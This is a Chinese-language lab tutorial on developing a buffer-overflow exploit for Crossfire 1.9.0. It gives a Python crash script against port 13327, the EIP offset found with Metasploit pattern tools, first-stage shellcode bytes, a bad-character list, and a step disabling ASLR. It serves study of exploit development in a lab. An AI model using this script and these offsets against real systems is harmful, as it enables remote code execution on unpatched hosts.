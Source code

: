 ```yaml
---
title: 缓冲区溢出案例（三）
categories:
- buffer overflow
tags:
- buffer overflow
---
```


参考资料：[kali linux之edb--CrossFire缓冲区溢出](https://www.cnblogs.com/Hydraxx/p/10422848.html)

Crossfire 1.9.0在接受socket连接的时候，有着bof漏洞。

## 搭建靶机

```
mkdir /usr/games    
#必须在该目录下运行crossfire，否则程序会报错
#Cannot open bmaps file /usr/games/crossfire/share/crossfire/bmaps: No such file or directory

cd /usr/games;wget www.offensive-security.com/crossfire.tar.gz;tar zxpf crossfire.tar.gz

cd crossfire/bin

gdb /usr/games/crossfire/bin/crossfire
run

---
当程序提示溢出错误的时候，可以运行run，输入y，重新调试程序

当需要重新运行的时候，可以结束进程重新运行。
pgrep crossfire | xargs kill -s 9
---
关闭ASLR
echo 0 > /proc/sys/kernel/randomize_va_space
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/1.PNG)

`Waiting for connections...`

面板最后出现了这样的语句，代表程序正常运行。

## （exp.py demo）让程序报错
开始调试bof漏洞
```
#!/usr/bin/python
import socket
host = "目标IP"
crash="\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/2.PNG)
程序报错，段错误，返回地址被`0x41`填充

## 定位缓冲区大小
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379`

修改python脚本，crash="pattern_create生成的字符串"

运行后得到一个地址，`0x46367046`
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/3.PNG)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046

[*] Exact match at offset 4368
```
缓冲区长度为4379，EIP地址为为4368后的4字节。

## 测试是否找到EIP地址
修改python脚本`crash="\x41" * 4368 + "B"*4 + "C"*7`

确保报错的是0x42424242，表示EIP地址被字符B所覆盖。确认找到了EIP指令寄存器的位置。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/4.PNG)

## 找出shellcode占用的空间
edb 

运行linux平台，图形化界面的调试器。图形化界面方便同时观察所有寄存器的状态。

点击图中的run按钮，运行crossfire程序，然后运行exp.py让程序报错。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/6.PNG)

在崩溃的时候，我们再次检查任何可能帮助我们找到buffer的寄存器。

选中EAX寄存器，右键 follow in dump，即可跳转到EAX所指地址。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/7.PNG)

在这个案例中，EAX寄存器看起来指向buffer的起始位置，包含了字符串“setup sound ”

但是EAX寄存器没有直接跳转到缓冲区（缓冲区的起始地址以A字符串开头），这可能会影响执行exp，导致失败。

在这种情况下，跳转到EAX可能实际上对我们有用。 但是，这不是一个很好的解决方案。 咱们试试更难的方案。

## 提高exp可用性

看起来ESP寄存器指向了缓冲区的C地址，在崩溃的时候，没有给我们足够的空间放置shellcode。

不像之前的slmail bof案例，增加 setup sound 字符串的长度，将会导致应用不同的崩溃。然而，在崩溃时，我们可以使用ESP寄存器指向的字节，来创建第一个阶段的shellcode。它可以使得ESP寄存器与缓冲区的A字符起始位置对齐，跳过字符串“setup sound"

为了达到这个目的，我们第一阶段的shellcode将会需要添加12比特给EAX寄存器，然后跳转到EAX。让我们看看这个shellcode demo是怎样的。

```
nasm_shell 汇编指令转十六进制

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
add eax,12
jmp eax
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/5.PNG)

然后写成16进制即可。幸运的是，这两个指令只用了5字节的内存——`\x83\xc0\x0c\xff\xe0`

## 发现坏字符
和[上一篇](https://whale3070.github.io/buffer%2520overflow/2020/01/15/03-x/)类似，发送[exp.py](https://raw.githubusercontent.com/Whale3070/ctf-coding/master/badchar-bof.py)

注意crash中exp的写法，`crash= badchars + "\x41" * 4368`

第一段是坏字符，目的是检查是否有badchar截断后续的字符。
第二段目的是覆盖返回地址，使得程序报错，方便调试。

点击图中的EBP寄存器，extended base pointer，它总是指向栈底。右键follow in dump，来跳转到EBP指向的地址。

发现有规律的字符`01 02 03 04 05 06 07 08`，失去了`09`，说明它是坏字符。

删除exp.py中 `\x09`，重复以上操作。发现坏字符`\x0a`

删除exp.py中 `\x0a`，重复以上操作。发现坏字符`\x20`

`\x00\x09\x0a\x20`   是坏字符

badchar坏字符跟操作系统、程序有关，不同的系统运行坏字符可能并不相同。

